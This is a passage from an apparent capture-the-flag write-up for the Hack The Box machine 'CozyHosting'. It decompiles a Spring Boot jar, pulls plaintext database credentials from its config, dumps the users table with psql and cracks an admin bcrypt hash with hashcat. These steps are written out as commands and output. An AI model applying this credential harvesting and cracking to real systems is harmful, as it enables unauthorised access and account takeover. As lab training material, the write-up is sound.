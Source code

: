 Currently the commonly suggested decompiler seems to be [vineflower](https://vineflower.org/) so lets use that.

```bash
$ java -jar vineflower.jar cloudhosting-0.0.1.jar cloudhosting
$ cat cloudhosting/BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
$ cat cloudhosting/BOOT-INF/classes/htb/cloudhosting/database/CozyUser.java
package htb.cloudhosting.database;

import jakarta.persistence.Column;
import jakarta.persistence.Entity;
import jakarta.persistence.Id;
import jakarta.persistence.Table;

@Entity
@Table(
   name = "users",
   schema = "public"
)
 ... snip ...
```

Some creds and the table schema here! lets dump the DB.

```bash
app@cozyhosting:/app$ psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost:5432/cozyhosting" -c 'SELECT * FROM users'
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

lets start cracking the hashes and have a look through the linpeas output:

```bash
$ hashcat --user hashes -m 3200 rockyou.txt
```

Nothing really interesting in linpeas output but we get a from password hashcat!

```bash
$ hashcat --user hashes -m 3200 rockyou.txt --show
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```
